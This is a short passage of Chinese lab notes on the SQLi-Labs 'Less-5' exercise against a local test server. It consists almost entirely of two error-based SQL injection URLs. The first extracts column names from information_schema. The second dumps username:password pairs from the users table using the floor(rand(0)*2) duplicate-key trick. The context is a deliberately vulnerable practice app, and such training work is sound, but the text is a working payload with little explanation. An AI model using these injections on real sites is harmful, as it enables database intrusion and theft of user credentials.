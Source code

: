 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604223534539.png" alt="image-20230604223534539" style="zoom:50%;" />

##### 爆字段

```
http://192.168.231.129:9001/Less-5/?id=1' union select 1,count(*),concat_ws('~',(select concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),floor(rand(0)*2)) as a from information_schema.columns group by a%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604223754650.png" alt="image-20230604223754650" style="zoom:50%;" />

##### 拖库

```
http://192.168.231.129:9001/Less-5/?id=1' union select 1,count(*),concat_ws('~',(select concat(username,':',password) from users limit 1,1),floor(rand(0)*2)) as a from information_schema.columns group by a%23
```
